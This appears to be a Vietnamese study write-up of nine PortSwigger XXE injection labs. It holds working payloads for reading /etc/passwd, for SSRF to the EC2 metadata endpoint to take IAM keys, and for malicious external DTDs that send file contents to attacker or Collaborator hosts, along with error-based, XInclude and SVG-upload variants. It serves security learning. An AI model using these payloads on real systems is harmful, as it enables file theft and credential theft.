










# XML external entity (XXE) injection

## Exploiting XXE to retrieve files

### 1. Exploiting XXE using external entities to retrieve files

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file. 

**Thực hiện**
- Quan sát gói tin request và response của chức năng checkStock.


- Nhận thấy ở tính năng sử dụng XML để thực hiện việc truy vấn. Vì thế ta có thể nghĩ tới XXE injection.
```XML
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [<!ENTITY execute SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>&execute;</productId><storeId>1</storeId>
</stockCheck>
```


**Note**
Ở bài lab này hệ thống đã cho phép XML External Intity thông qua việc tự khai báo ngay trong tài liệu XML. 
=> Có thể thực thi lệnh đọc file hệ thống bằng cách sử dụng entity SYSTEM trỏ đến file mục tiêu, ví dụ:` file:///etc/passwd` trên Linux hoặc `file:///C:/Windows/system32/drivers/etc/hosts` trên Windows.

## Exploiting XXE to perform SSRF attacks

### 2.Exploiting XXE to perform SSRF attacks

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

**Thực hiện**
- Tương tự bài lab trên, thực hện quan sát gói tin request và response của chức năng checkStock
- Trong bài này cần phải lấy được secret key từ `EC2 metada enpoint`
Payload:
```XML
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [<!ENTITY vul SYSTEM "http://169.254.169.254/">]>
<stockCheck><productId>&vul;</productId><storeId>1</storeId>
</stockCheck>
```


- Dựa vào kết quả trả về Product ID không hợp lệ : `latest` => ta biết các thông tin về thư mục đường dẫn.
- Cứ lần lượt như vậy ta có thể trích xuất được danh sách `IAM Role` qua đường dẫn sau: `http://169.254.169.254/latest/meta-data/iam/security-credentials/`


- Trích xuất thông tin của role `admin`


**Note**
Chúng ta có thể kết hợp với lỗ hổng SSRF nhằm mở rộng phạm vi tấn công như trơng bài lab là sử dụng SSRF kết hợp để trích xuất dữ liệu nhạy cảm của EC2.

Một mục tiêu điển hình thường được nhắm tới đối với các server được cung cấp bởi AWS là các dữ liệu instance metadata. Instance metadata trên AWS là thông tin về một máy chủ (instance) được cung cấp bởi AWS. Dữ liệu này phục vụ cho việc cài đặt, cấu hình và quản lý các instance đang chạy. Instance metadata bao gồm nhiều loại thông tin như hostname, sự kiện hệ thống, nhóm bảo mật và các thiết lập khác.  

Các dữ liệu này rất quan trọng và cần được bảo vệ vì chúng có thể chứa thông tin nhạy cảm về hệ thống, bao gồm cả quyền truy cập và cấu hình bảo mật của server. Nếu bị lộ, hacker có thể lợi dụng để truy cập trái phép vào hệ thống hoặc thực hiện các hành vi tấn công nguy hiểm.

## Detecting blind XXE using out-of-band (OAST) techniques

### 3. Blind XXE with out-of-band interaction

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input but does not display the result.
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.
To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

**Thực hiện**
- Quan sát gói tin request và response trả về. Thử thay đổi trường `<productID>` trong XML thì kết quả trả về không còn hiện thị nội dung chuỗi như các bài lab trên -> Blind


- Ý tưởng tương tự như SSRF chúng ta có thể thực hiện gửi một truy vấn DNS tới dải bên ngoài để kiểm tra xem liệu có thể có lỗ hổng injection ở đây hay không
Payload:
```XML
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE stockCheck [ <!ENTITY abc SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
<stockCheck><productId>&vul;</productId><storeId>1</storeId>
</stockCheck>
```


- Vậy là hoàn thành bài lab.

**Note**
Ý tưởng này chính là ý tưởng kiểm tra lỗ hổng SSRF thông qua kênh ngoài ( OUT OF BAND).

---

### 4. Blind XXE with out-of-band interaction via XML parameter entities

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

**Thực hiện**
- Cũng như bài lab trên ta có thể thử luôn bằng payload được sử dụng bên trên.


- Thông báo Entities này không được phép sử dụng, chúng ta sẽ bypass bằng cách sử dụng `parameter entities`.
Payload
```XML
<!DOCTYPE name [<!ENTITY % abc SYSTEM "http://jaxx7bdprmz48fnsc4q1si1ho8uziq6f.oastify.com">%abc;]>
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```




- Hoàn thành bài lab
**Note**
Sự khác biệt giữa Regular Entities và Parameter Entities trong XXE

| Loại Entity       | Regular Entities                        | Parameter Entities                        |
|-------------------|-----------------------------------------|-------------------------------------------|
| Cú pháp khai báo  | `<!ENTITY name "value">`                | `<!ENTITY % name "value">`                |
| Cú pháp gọi       | `&name;`                                | `%name;`                                  |
| Phạm vi sử dụng   | Có thể sử dụng trực tiếp trong nội dung XML | Chỉ có thể sử dụng bên trong DTD          |
| Mục đích khai thác XXE | Đọc file, SSRF, OOB khi hệ thống không chặn entity | Dùng khi hệ thống chặn regular entity nhưng vẫn xử lý DTD |
| Ví dụ khai báo    | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | `<!ENTITY % xxe SYSTEM "file:///etc/passwd">` |
| Ví dụ gọi         | `<data>&xxe;</data>`                    | `%xxe;` (chỉ dùng trong DTD)              |

Tại sao lại hiện `"XML parsing error"` ??? 

## Exploiting blind XXE to exfiltrate data out-of-band

### 5. Exploiting blind XXE to exfiltrate data using a malicious external DTD
**Yêu cầu**
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, exfiltrate the contents of the `/etc/hostname` file. 

**Thực hiện**
- Cũng như bài lab #4, trước tiên ta xác định lỗ hổng SSRF bằng OOB.
Payload
```XML
<!DOCTYPE name [<!ENTITY % abc SYSTEM "http://jaxx7bdprmz48fnsc4q1si1ho8uziq6f.oastify.com">%abc;]>
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```


- Như vậy là xác nhận được lỗ hổng bước tiếp theo là tìm cách để trích xuất data.
- Kịch bản ở đây sẽ là chúng ta sẽ tạo 1 tệp `.dtd` được lưu ở server (attacker). Khi ứng dụng mục tiêu xử lý XML có lỗi XXE (XML External Entity Injection), nó sẽ tải file `.dtd` từ server của kẻ tấn công, và thực thi các entity được khai báo bên trong để trích xuất dữ liệu nhạy cảm từ hệ thống.
- Xây dựng file `dtd` và để chúng trên `exploit server`.
```XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM 'http://attacker-server?leak=%file;'>">
%eval;
%leak;
```


- Thực hiện chèn XML ở chức năng checkStock. Mục tiêu là `fetch` tới `.dtd` được đặt tại host của `attacker`.


- Gửi đi và quan sát ở Burp Colaborator


- Hoàn thành lab

**Note**
Có 2 dạng DTD thường được sử dụng:
- **Internal DTD**: Khai báo trực tiếp trong file XML, giúp định nghĩa cấu trúc và quy tắc của tài liệu XML ngay trong chính file đó. 
- **External DTD**: Khai báo trong một file `.dtd` riêng biệt và được tham chiếu từ file XML. Trong tấn công XXE injection, kẻ tấn công thường sử dụng External DTD để truy xuất dữ liệu nhạy cảm từ hệ thống mục tiêu và gửi đến server do chúng kiểm soát.

```XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Cách hoạt động của file DTD:
- Định nghĩa một parameter entity %file chứa nội dung file /etc/passwd.
- Định nghĩa một entity %eval, trong đó khai báo entity %exfiltrate để gửi request HTTP đến attacker kèm nội dung %file.
- Gọi entity %eval để thực thi khai báo entity %exfiltrate.
- Gọi entity %exfiltrate để gửi dữ liệu về attacker.

Một số lưu ý:
- &#x25; là mã HTML encode của ký tự % giúp tránh lỗi cú pháp.
- Các parameter entity phải được gọi thì mới có tác dụng.
- Kẻ tấn công có thể triển khai file DTD trên server public và tham chiếu trong payload XML.
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]>
```

Khi server xử lý payload trên, nó tải file DTD từ attacker và thực hiện các lệnh khai báo, dẫn đến việc gửi nội dung file nhạy cảm về server attacker.

Lưu ý: Kỹ thuật này có thể không hoạt động nếu dữ liệu có chứa ký tự đặc biệt như dấu xuống dòng. Một giải pháp thay thế là sử dụng giao thức FTP thay vì HTTP để gửi dữ liệu ra ngoài.

## Exploiting blind XXE to retrieve data via error messages

### 6.Exploiting blind XXE to retrieve data via error messages
**Yêu cầu**
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

**Thực hiện**
- Sử dụng burp colaborator để kiểm tra lỗ hổng



- Tuy là thông báo lỗi nhưng bên Burp colaborator vẫn nhận được thông báo. Khi không có protocol, sau quá trình phân tích cú pháp XML, hệ thống đã ghép và truy cập tới `/home/peter/ftcx9mtq7g7r02xx8ihek1slscy3mtai.oastify.com`. Do không tìm thấy đường dẫn như trong ảnh nên trả về lỗi `java.io.FileNotFoundException`.
- Vậy thì ý tưởng của bài này sẽ là thay thế chuỗi `burp-colaborator.domain` bằng nội dung file cần đọc, và kích hoạt lỗi phân tích cú pháp, từ đó nội dung file sẽ được trang web hiển thị cùng với error message.
- Payload:
```XML
<!DOCTYPE foo [ <!ENTITY % xee SYSTEM "https://exploit-0acd004103df9276878b60eb01f7001c.exploit-server.net/exploit.dtd"> %xee; ]>
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

- file `.dtd`
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % xxe "<!ENTITY &#x25; show SYSTEM 'abc/%file;'>">
%xxe;
%show;

```

- Thực hiện khai thác


**Note**
Trong một số trường hợp khi chúng ta sử dụng sai cú pháp XML dẫn đến quá trình phân tích cú pháp dữ liệu gặp lỗi, lúc này hệ thống thường trả về các đoạn thông báo lỗi (error message), chúng có thể chứa một số thông tin nhạy cảm.
Bằng cách đưa luồng xử lý hệ thống đi vào trường hợp error, chúng ta có thể kết hợp sử dụng external DTD nhằm "gửi" nội dung file bất kỳ vào các đoạn thông báo lỗi, từ đó hiển thị chúng trong giao diện.


## Exploiting blind XXE by repurposing a local DTD
### 7. Exploiting XXE to retrieve data by repurposing a local DTD
**Yêu cầu**
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.
You'll need to reference an existing DTD file on the server and redefine an entity from it.

>Hint
Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`.

**Thực hiện**
- Thực hiện kiểm tra XXE Injection thông qua Burp Colaborator


- Theo nội dung bài lab, chúng sẽ tận dụng bằng việc load file `.dtd` local và ghi đè lại các parameter entity có. Khi đó ta có thể khai báo thêm các entity khác.
Payload:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

- Hoàn thành bài lab.


**Note**
Khi bạn sử dụng một internal DTD (khai báo DTD trong XML) và external DTD (khai báo DTD từ một tệp ngoài), internal DTD có thể ghi đè các khai báo trong external DTD. Điều này có thể tạo ra một lỗ hổng bảo mật và cho phép kẻ tấn công khai thác bằng cách sử dụng parameter entity để tham chiếu vào một entity khác — điều mà thông thường không được phép.


## Finding hidden attack surface for XXE injection

### 8.Exploiting XInclude to retrieve files
**Yêu cầu**
This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
To solve the lab, inject an XInclude statement to retrieve the contents of the `/etc/passwd` file.

>Hint
By default, XInclude will try to parse the included document as XML. Since `/etc/passwd` isn't valid XML, you will need to add an extra attribute to the XInclude directive to change this behavior.

**Thực hiện**
- Vẫn như các bài lab trước, ta sẽ quan sát gói tin request và response chức năng checkStock. Bài lab này không còn sử dụng POST với tài liệu XML nữa mà dùng cách data để truyền.


- Thử với payload đặc biệt `%` thì hiện ra lỗi `Entities are not allowed` -> điều này chứng tỏ trang web này có quá trình phân tích XML.


- Với kiến thức từ bài lab, ta đoán rằng ở bài lab này sử dụng `XInclude`. Tức là tham số ở `productId` hoặc `storeId` sẽ được truyền vào trong một tệp XML để xử lí. Ta có thể lợi dụng điều này để truyền vào đoạn mã `XInclude`.
- Payload:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```


- Hoàn thành bài lab.

**Note**
Trong tình huống bạn chỉ kiểm soát một phần dữ liệu (như trong bài lab này), bạn có thể chèn đoạn mã XInclude vào đó. Khi server nhúng dữ liệu của bạn vào XML và xử lý, XInclude sẽ kích hoạt và truy cập tài nguyên mà không cần bạn định nghĩa `<!DOCTYPE>`.

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```
`xmlns:xi="http://www.w3.org/2001/XInclude"`: Khai báo namespace để sử dụng XInclude.
`<xi:include>`: Thẻ yêu cầu nhúng nội dung từ một nguồn khác.
`parse="text"`: Chỉ định rằng nội dung được nhúng là văn bản thô (text), không phải XML.
`href="file:///etc/passwd"`: Đường dẫn đến tệp hoặc tài nguyên bạn muốn truy cập.

### 9.Exploiting XXE via image file upload
**Yêu cầu**
This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

**Thực hiện**
- Trước tiên chúng ta cần xác định vị trí có lỗ hổng. Quan sát gói tin request và response ở chức năng Post Comment.


- Một số ứng dụng support hình ảnh có thể hỗ trợ cả file `.svg`. Thử upload file svg lên.


- Upload thành công -> điều này có thể khẳng định svg được hỗ trợ, và chúng ta có thể dựa vào đây để chèn XML.
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg [
    <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="500" height="500" xmlns="http://www.w3.org/2000/svg">
    <text x="10" y="50" font-size="20">&xxe;</text>
</svg>
```

**Note**
Ứng dụng có thể yêu cầu người dùng tải lên hình ảnh ở các định dạng phổ biến như PNG hoặc JPEG để sử dụng làm avatar. Tuy nhiên, trong trường hợp này, thư viện xử lý hình ảnh được sử dụng (cụ thể là Apache Batik, một thư viện chuyên xử lý định dạng SVG) lại hỗ trợ các tệp SVG mà không thực hiện kiểm tra định dạng nghiêm ngặt ở phía ứng dụng. Điều này tạo ra một lỗ hổng bảo mật: mặc dù giao diện hoặc yêu cầu của ứng dụng hướng tới các định dạng ảnh raster thông thường (như PNG/JPEG), hacker vẫn có thể lợi dụng khả năng xử lý SVG của thư viện để tải lên một tệp SVG. Tệp SVG này, vốn là một định dạng dựa trên XML, có thể được thiết kế để chứa mã khai thác XML External Entity (XXE). Khi tệp SVG được xử lý bởi Apache Batik, mã XXE bên trong có thể bị kích hoạt, cho phép hacker truy cập dữ liệu nhạy cảm (như nội dung của /etc/hostname) mà không bị chặn bởi các biện pháp kiểm tra định dạng phía ứng dụng.